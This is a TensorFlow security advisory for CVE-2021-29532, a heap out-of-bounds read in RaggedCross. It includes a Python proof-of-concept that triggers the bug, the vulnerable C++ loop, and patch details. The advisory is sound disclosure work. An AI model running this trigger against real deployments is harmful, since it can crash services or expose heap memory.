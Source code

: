 ## TFSA-2021-021: Heap out of bounds read in `RaggedCross`

### CVE Number
CVE-2021-29532

### Impact
An attacker can force accesses outside the bounds of heap allocated arrays by
passing in invalid tensor values to `tf.raw_ops.RaggedCross`:

```python
import tensorflow as tf

ragged_values = []
ragged_row_splits = []
sparse_indices = []
sparse_values = []
sparse_shape = []

dense_inputs_elem = tf.constant([], shape=[92, 0], dtype=tf.int64)
dense_inputs = [dense_inputs_elem]

input_order = "R"
hashed_output = False
num_buckets = 0
hash_key = 0

tf.raw_ops.RaggedCross(ragged_values=ragged_values,
    ragged_row_splits=ragged_row_splits,
    sparse_indices=sparse_indices,
    sparse_values=sparse_values,
    sparse_shape=sparse_shape,
    dense_inputs=dense_inputs,
    input_order=input_order,
    hashed_output=hashed_output,
    num_buckets=num_buckets,
    hash_key=hash_key,
    out_values_type=tf.int64,
    out_row_splits_type=tf.int64)
```

This is because the
[implementation](https://github.com/galeone/tensorflow/blob/efea03b38fb8d3b81762237dc85e579cc5fc6e87/tensorflow/core/kernels/ragged_cross_op.cc#L456-L487)
lacks validation for the user supplied arguments:

```cc
int next_ragged = 0;
int next_sparse = 0;
int next_dense = 0;
for (char c : input_order_) {
  if (c == 'R') {
    TF_RETURN_IF_ERROR(BuildRaggedFeatureReader(
        ragged_values_list[next_ragged], ragged_splits_list[next_ragged],
        features));
    next_ragged++;
  } else if (c == 'S') {
    TF_RETURN_IF_ERROR(BuildSparseFeatureReader(
        sparse_indices_list[next_sparse], sparse_values_list[next_sparse],
        batch_size, features));
    next_sparse++;
  } else if (c == 'D') {
    TF_RETURN_IF_ERROR(
        BuildDenseFeatureReader(dense_list[next_dense++], features));
  }
  ...
}
```

Each of the above branches call a helper function after accessing array elements
via a `*_list[next_*]` pattern, followed by incrementing the `next_*` index.
However, as there is no validation that the `next_*` values are in the valid
range for the corresponding `*_list` arrays, this results in heap OOB reads.

### Patches
We have patched the issue in GitHub commit
[44b7f486c0143f68b56c34e2d01e146ee445134a](https://github.com/galeone/tensorflow/commit/44b7f486c0143f68b56c34e2d01e146ee445134a).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu X-Team.
